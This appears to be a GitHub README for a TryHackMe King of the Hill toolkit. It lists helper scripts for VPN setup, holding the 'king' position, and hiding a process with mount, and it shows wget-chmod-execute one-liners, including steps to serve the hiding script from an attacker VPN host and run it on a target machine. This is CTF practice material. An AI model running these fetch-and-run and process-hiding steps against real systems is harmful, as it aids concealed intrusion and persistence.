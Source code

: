 >בס״ד
<div align="center">

![image](https://user-images.githubusercontent.com/51442719/172729066-1293d382-4a31-4f03-8c23-ab0ea5f611a0.png)

# [`Anlominus`](https://github.com/Anlominus) 🤴 [King of the Hill](https://tryhackme.com/games/koth) `BETA`

---


</div>

---

# 📜 KoTH Menu ~ To Do
- 📜 Menu
### 1️⃣ ~ [`KoTH`](./KoTH) ~> TryHackMe VPN
> Simple helper script for VPN, VM's, etc
```shell
wget https://raw.githubusercontent.com/Anlominus/KoTH/main/KoTH; chmod +x KoTH; ./KoTH
```

---

### 2️⃣ ~ [`KoTH-Protection`](./KoTH-Protection) ~> Protecting Rank in King of The Hill
> A script to protect your king
```shell
wget https://raw.githubusercontent.com/Anlominus/KoTH/main/KoTH-Protection ; chmod +x KoTH-Protection; ./KoTH-Protection
```

---

### 3️⃣ ~ [`KoTh-Hidding`](./KoTh-Hidding) ~> A simple script to hide a process with mount
```shell
wget https://raw.githubusercontent.com/Anlominus/KoTH/main/KoTH-Hidding; && chmod +x KoTh-Hidding; ./KoTh-Hidding
```
> - Start local server <br>
>   - `python3 -m http.server 80` <br>
> - in the Target Machine <br>
>   - `wget http://yourvpnip/KoTh-Hidding && chmod +x KoTh-Hidding && ./KoTh-Hidding`

---

# TryHackMe Menu ToDo

---

- [x] Scope
  - [ ] 1️⃣ Asking For Username:
  - [ ] 2️⃣ Asking For TryHackMe VPN File Location:
  - [ ] 3️⃣ Asking Data for Reporting:
  - [ ] 4️⃣ Asking Location For Reporting:
  - [ ] 5️⃣ Asking For IP Target: +~> Insert it to ${box_ip}
  - [ ] 6️⃣ Asking For Name Target: +~> Insert it to ${box_name}

---

- [x] Start
  - [ ] 1️⃣ Adding ${box_ip} ${box_name} ~>> /etc/hosts
    - `sudo echo "${box_ip}   ${box_name}" >> /etc/hosts`  
  - [ ] 2️⃣ Asking For TryHackMe VPN File Location:
  - [ ] 3️⃣ Asking Data for Reporting:

---

- [x] Stop
    - [ ] anonsurf status
    - [ ] anonsurf start
    - [ ] anonsurf stop

---

- [x] Status
    - [ ] Asking For Username:

---

## Index of Machine Covered:
-  [Food](#machine-name-food)
-  [Shrek](#machine-name-shrek)
-  [SpaceJam](#machine-name-space-jam)
-  [Fortune](#machine-name-fortune)
-  [Production](#machine-name-production)
-  [Lion](#machine-name-lion)
-  [Hackers](https://github.com/holmes-py/King-of-the-hill/blob/master/Writeup%20for%20Hackers%2001.md)


---
